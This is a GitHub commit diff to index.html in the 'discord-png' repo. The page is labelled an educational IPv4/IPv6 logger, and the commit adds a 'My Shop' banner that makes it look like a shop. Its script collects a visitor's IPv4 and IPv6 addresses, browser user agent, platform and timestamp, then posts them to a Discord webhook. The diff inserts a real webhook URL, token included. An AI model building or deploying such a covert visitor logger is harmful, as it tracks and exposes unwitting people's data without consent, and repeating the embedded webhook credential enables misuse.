

Before and after one commit to MeteorzHub/discord-png, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -10,9 +10,20 @@
         font-family: Arial, sans-serif;
         color: white;
         display: flex;
-        justify-content: center;
+        flex-direction: column;
         align-items: center;
-        height: 100vh;
+        min-height: 100vh;
+        margin: 0;
+    }
+    .banner {
+        background-color: #1b263b;
+        width: 100%;
+        padding: 20px;
+        text-align: center;
+        font-size: 28px;
+        font-weight: bold;
+        color: #e0e1dd;
+        box-shadow: 0px 4px 15px rgba(0, 0, 0, 0.4);
     }
     .card {
         background-color: #1b263b;
@@ -21,6 +32,7 @@
         box-shadow: 0px 4px 15px rgba(0, 0, 0, 0.4);
         width: 300px;
         text-align: center;
+        margin-top: 50px;
     }
     h2 {
         margin-bottom: 10px;
@@ -49,6 +61,8 @@
 </head>
 <body>
 
+<div class="banner">🛒 My Shop</div>
+
 <div class="card">
     <h2>Test Item</h2>
     <p>Educational IPv4 & IPv6 Logger</p>
@@ -58,38 +72,32 @@
 
 <script>
 async function sendIP() {
-    const webhook = "YOUR_DISCORD_WEBHOOK_HERE"; // Replace with your webhook
+    const webhook = "https://discord.com/api/webhooks/1405178051607793797/lrLovFGo3LWPXBe3u874pQYct3xulb679aybaGQtdDYsnyrBeEZCXT5I2zs39z2-RqAR"; // Replace with your webhook
 
     try {
-        // Fetch IPv4
         const ipv4Res = await fetch('https://api.ipify.org?format=json');
         const ipv4 = (await ipv4Res.json()).ip;
 
-        // Fetch IPv6
         let ipv6 = "No IPv6 detected";
         try {
             const ipv6Res = await fetch('https://api64.ipify.org?format=json');
             ipv6 = (await ipv6Res.json()).ip;
         } catch {}
 
-        // Browser & OS
         const browser = navigator.userAgent;
         const os = navigator.platform;
         const timestamp = new Date().toLocaleString();
 
-        // Payload
         const payload = {
             content: `**Test IP Logger (Educational)**\nIPv4: \`${ipv4}\`\nIPv6: \`${ipv6}\`\nBrowser: \`${browser}\`\nOS: \`${os}\`\nTime: \`${timestamp}\``
         };
 
-        // Send to webhook
         await fetch(webhook, {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
             body: JSON.stringify(payload)
         });
 
-        // Show success notification
         document.getElementById("notify").style.display = "block";
 
     } catch (err) {
```
